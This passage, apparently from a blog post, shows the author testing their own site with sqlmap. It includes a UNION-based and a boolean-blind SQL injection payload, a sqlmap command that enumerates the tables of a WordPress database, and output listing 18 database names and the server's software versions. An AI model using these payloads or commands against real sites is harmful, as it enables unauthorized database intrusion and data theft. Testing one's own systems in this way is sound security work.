     Payload: id=0 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x47706e7344436a7a4d624171784b474d7354745867564f6d4e7a676a52416550696d5979794e4e58,0x7170707171),NULL,NULL-- -
---
[09:30:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5
[09:30:46] [INFO] fetching database names
available databases [18]:
[*] bimpra
[*] csvgraph
[*] csvtest
[*] daspos
[*] diamondsis
[*] ecomm
[*] edgar
[*] exam
[*] imagesearch
[*] information_schema
[*] ippt
[*] mysql
[*] news
[*] openclassifiedads
[*] performance_schema
[*] phpmyadmin
[*] servicehour
[*] wp

[09:30:46] [INFO] fetched data logged to text files under '/root/.sqlmap/output/bimpra.tk'

[*] shutting down at 09:30:46

root@ip-172-31-32-255:/var/www/html/sqlmap# 
{% endhighlight %}

Next test revealed all my tables of wp database

{% highlight %}
root@ip-172-31-32-255:/var/www/html/sqlmap# python sqlmap.py -u "http://bimpra.tk/test.php?id=0" -z "ign,bat" --tables -D wp
[09:34:08] [WARNING] detected ambiguity (mnemonic 'ign' can be resolved to: 'ignore-401', 'ignore-proxy'). Resolved to shortest of those ('ignore-401')
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201512030967}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 09:34:08

[09:34:08] [INFO] resuming back-end DBMS 'mysql' 
[09:34:08] [INFO] testing connection to the target URL
[09:34:08] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=0 AND 4390=4390
